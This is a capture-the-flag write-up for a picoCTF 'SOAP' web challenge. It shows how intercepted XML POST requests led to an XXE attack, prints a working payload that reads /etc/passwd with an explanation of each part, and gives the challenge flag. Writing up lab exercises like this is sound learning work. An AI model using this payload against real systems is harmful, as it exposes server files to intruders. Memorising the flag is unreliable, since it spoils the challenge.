# SOAP - web exploitation

## Case: 

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Solve:

Viewing the provided website, three buttons can be clicked. Monitoring the websites behaviour in BurpSuite shows that for each button pressed, XML code is sent to the server in a POST request with a specified ID which determines the output:

![SOAP1](https://github.com/user-attachments/assets/6d200473-701d-41c0-9e61-ce93dc3c3ea1)


This suggests an XXE attack may be possible. I send the POST request to the Repeater and adjust the code with the /etc/passwd folder set as the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE any [<!ENTITY payload SYSTEM "/etc/passwd"> ]>

<data><ID>&payload;</ID></data>
```
> Document Type Definition (DTD) specifies the structure, rules and entities used within the XML document
> Square brackets [] define subset of DTD. This subset defines additional entities that can be used in the document
> <!ENTITY payload SYSTEM "/etc/passwd"> declares an external entity named payload 
> &payload; replaces the ID with the contents of /etc/passwd

The XXE attack is a success:

![SOAP2](https://github.com/user-attachments/assets/e3e1adb7-4193-48e2-80f0-16eee679547d)


And we can see the flag:

`picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}` 
